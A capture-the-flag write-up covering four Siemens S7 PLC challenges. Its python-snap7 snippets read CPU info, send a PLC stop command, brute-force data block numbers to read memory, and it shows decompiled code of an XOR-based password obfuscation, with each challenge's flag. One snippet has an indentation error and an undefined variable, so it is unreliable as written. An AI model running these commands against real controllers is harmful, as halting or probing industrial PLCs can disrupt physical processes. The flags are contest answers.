

# Siemens S7 related Write-Ups 

- Who Am I ?
- Stop This PLC
- A Hidden Value
- Old Proprietary Encryption

## Who Am I 

````python3
import snap7
client = snap7.client.Client()
client.connect(PLC_IP, PLC_RACK, PLC_SLOT, PLC_PORT)
print(client.get_cpu_info())
````

FLAG : _ECW{FRLCUR289}_, thanks _DGA_ for this challenge ! 

---

## Stop This PLC

````python3
import snap7
client = snap7.client.Client()
client.connect(PLC_IP, PLC_RACK, PLC_SLOT, PLC_PORT)
client.plc_stop()
````

<p align="center"></p>

FLAG : _ECW{S7-315-stop}_ , Thanks _DGA_ for this challenge !

---

## A Hidden Value

````python3
import snap7
client = snap7.client.Client()
client.connect(PLC_IP, PLC_RACK, PLC_SLOT, PLC_PORT)

#guess the data block number in memory
for i in range(5000):
	try:
            data = client.db_read(i, 0, 200)
            print(f"[+] Read DB {i}, size of block 200: {data[:16]}...")
            break
        except Exception as e:
            print(f"[X] Error on DB {i}, size of block {j}: {e}")

client.disconnect()
````


````python3
import snap7
client = snap7.client.Client()
client.connect(PLC_IP, PLC_RACK, PLC_SLOT, PLC_PORT)
dbn, size = 6485, 200 #220 => enough to read the flag
buffer = client.db_read(dbn, 0, size)
print(buffer)
````

FLAG : _ECW{Variable-Flag-159}_ , Thanks _DGA_ for this challenge !

---

## Old Proprietary Encryption

````Cpp
int __stdcall sub_1000551B4(char a1, void *Dst)
{
  const void *v2; // eax
  _WORD *v4; // [esp+8h] [ebp-1Ch]
  _WORD *v5; // [esp+Ch] [ebp-18h]
  signed int i; // [esp+14h] [ebp-10h]
	
  if ( !sub_1000D480(&a1) )
    CString::operator=(&a1, off_1009C50C);
  while ( sub_1000D8480(&a1) < 8 )
    CString::operator+=(&a1, 32);
  v2 = (const void *)unknown_libname_203(&a1);
  memcpy(Dst, v2, 8u);
  v4 = Dst;
  v5 = Dst;
  *(_WORD *)Dst ^= 0xAAAAu;
  for ( i = 1; i < 4; ++i )
  {
    ++v4;
    *v4 ^= *v5 ^ 0xAAAA;
    ++v5;
  }
  return CString::~CString((CString *)&a1);
}
````

Flag : _ECW{plcFLM12}_, thanks _DGA_ for this challenge ! 
